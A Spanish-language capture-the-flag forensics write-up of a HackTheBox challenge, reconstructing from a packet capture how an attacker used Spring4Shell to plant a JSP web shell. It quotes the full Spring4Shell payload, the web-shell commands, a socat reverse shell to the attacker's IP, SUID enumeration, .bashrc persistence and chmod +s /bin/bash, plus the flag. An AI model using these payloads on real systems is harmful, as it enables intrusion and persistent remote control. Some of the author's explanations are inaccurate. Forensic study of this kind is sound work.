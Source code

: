 # "Wrong Spooky Season"
-----------------------

Nos dan un archivo "zip" que se traduce en una captura "pccap". Este se abre con la contraseña "hackthebox" (nos la dan) Junto a una descripción 
del reto.

```
"Les dije que era muy pronto y no era la estacíon correcta para lanzar semejante web, pero me aseguraron que
darle esta temática seria suficiente para evitar que los fantasmas fueran a por nosotros. Estaba equivcado"

Ahora, hay una brecha de seguridad en la "Spooky Network" y necesito que encuentres que ha pasado. Analiza la 
red y descubre como entraron los fantasmas y que hicieron
```

Si abrimos la captura vemos un montón de tráfico entre estos dos sistemas: 
"192.168.1.180" (cliente) y "192.168.1.166" (servidor, aloja una web por el puerto 8080) 
Viendo estas IPs "192.168.1..." parece una LAN de Clase C (pequeñita, domestica).
![forensics1](https://user-images.githubusercontent.com/96772264/208401004-f5fe71d8-d4d1-40ce-9880-31ff8171352e.PNG)

Lo primero, hay mucho tráfico TCP, pero lo que nos interesa es el HTTP, o sea la interación por la web.

Cuando accedes a una web, le pides unos cuantos recursos como imagenes, codigo fuente y hoja de estilos que el navegador se encarga de colocar de 
una manera vistosa. 
![forensics2](https://user-images.githubusercontent.com/96772264/208401109-8c27f3b4-52cb-4641-887a-64b510c27f91.PNG)

Las primeras 30 peticiones son justo eso, así que las ignoraremos. Lo critico viene con las /POST (envió de datos/formularios)

Si seleccionamos un paquete /POST y le damos a "seguir tráfico TCP" podemos ver a la derecha todo el contenido.
Podemos copiarnos el html en un archivo "index.html" y hostearlo en un servidor para ver como se vería la web.
![forensics5](https://user-images.githubusercontent.com/96772264/208401241-6f38c1db-b266-4906-a397-7b3d658cf85d.PNG)

Solo tenemos un formulario ("Enter email adress"), asi que si ha habido un ataque sera ahí.
![forensics3](https://user-images.githubusercontent.com/96772264/208401143-25cce307-d9f6-4908-8f69-468dc3a317dd.PNG)


A /home manda una cadena "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
![forensics4](https://user-images.githubusercontent.com/96772264/208401179-9daa6606-9966-4c05-8cbf-629f91d4d8ad.PNG)

No tengo ni idea de que es, asi que la busco en google y pone "Spring4Shell". La información que consigo es la
siguiente:
- Spring4Shell se parece en nombre a Log4Shell, y en efecto, ambas son vunls de java, en concreto esta afecta a "Spring Framework"  
- Dicho Framework utiliza "Spring Boot" que hace que los desarolladores puedan poner en marcha de manera rapida sus aplicaciones.  
- Por su esructura es muy similar a Flask en Python.  
- El asunto esque este framework utiliza "templates" (o sea como pasa con python) por lo que se da el cláscio STTI  

```"Tu te llamas" + ${nombre}``` 
El STTI accede a las clases y de ahí va escalando y moviendose hasta encontrar un modulo de ejecucion de comandos.

1. /home -> ```{"class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat":""}```  
Supongo que para comprobar si es inyectable, como el clasico {{7*7}} -> 16  

2. ```{"class.module.classLoader.resources.context.parent.pipeline.first.pattern":"%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i"}```  
Parece el contenido de una backdoor (programado en java).  

3. ```{"class.module.classLoader.resources.context.parent.pipeline.first.suffix":".jsp"}```  
Archivo de java para codigo web, en concreto para crear la backdoor.  

4. ```{"class.module.classLoader.resources.context.parent.pipeline.first.directory":"webapps/ROOT"}```  
Directorio donde va a poner la backdoor.  

5. ```{"class.module.classLoader.resources.context.parent.pipeline.first.prefix":"e4d1c32a56ca15b3"}```  
El nombre de dicha "backdoor.jsp"  

6. ```{"class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat":""}```  
7. ```{"class.module.classLoader.resources.context.parent.pipeline.first.pattern":""}```  
Supongo que serán para que se guarde o que e active no se.  

El resto son interacciones con esta backdoor:  
```
/GET /e4d1c32a56ca15b3.jsp?cmd=whoami
/GET /e4d1c32a56ca15b3.jsp?cmd=id
/GET /e4d1c32a56ca15b3.jsp?cmd=apt -y install socat  # instalar socat
/GET /e4d1c32a56ca15b3.jsp?cmd=socat TCP:192.168.1.180:1337 EXEC:bash  # mandale una shell a su IP con socat
```

Una vez hecho esto el atacante entró en el sistema, se acabo el flujo HTTP, asi que ahora tenemos que fijarnos en el TCP. 
Se pone a enumerar el sistema en busca de vulns ```id, cat /etc/passwd, groups, uname -r, find / -perm -u=s -type f 2>/dev/null```
Al final ```echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc``` para ganar persistencia que cada vez que alguien abra una consola se le mande a él.
```chmod +s /bin/bash``` hacer a la bash SUID 
![forensics7](https://user-images.githubusercontent.com/96772264/208401290-29f21e89-b805-4ea2-adc2-56fe094a07f0.PNG)

Uno de los comandos que hace es este: ```echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null``` 
Que se traduce en la flag: ```HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}```
